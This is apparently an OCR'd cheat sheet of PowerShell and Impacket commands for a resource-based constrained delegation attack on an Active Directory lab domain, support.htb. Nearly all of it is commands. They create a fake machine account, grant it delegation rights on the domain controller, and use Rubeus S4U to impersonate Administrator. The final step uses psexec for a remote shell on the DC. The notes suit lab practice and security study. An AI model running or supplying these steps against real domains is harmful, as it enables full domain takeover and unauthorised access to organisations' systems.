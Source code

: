# Active Directory



```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-
MachineAccountQuota
```

```
. ./PowerView.ps1
```

```
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```

```
 . ./Powermad.ps1
```



Creating a Computer Object

```
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString
'Password123' -AsPlainText -Force)
```

```
Get-ADComputer -identity FAKE-COMP01
```



Configuring RBCD

```
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

```
 Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
```

```
 Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

```
$RawBytes = Get-DomainComputer DC -Properties 'msds-
```

```
allowedtoactonbehalfofotheridentity' | select -expand msds-
allowedtoactonbehalfofotheridentity
```

```
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
$RawBytes, 0
```

```
$Descriptor
$Descriptor.DiscretionaryAcl
```



Performing a S4U Attack

```
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

```
rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71
/impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

```
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

```
ticketConverter.py ticket.kirbi ticket.ccache
```

```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
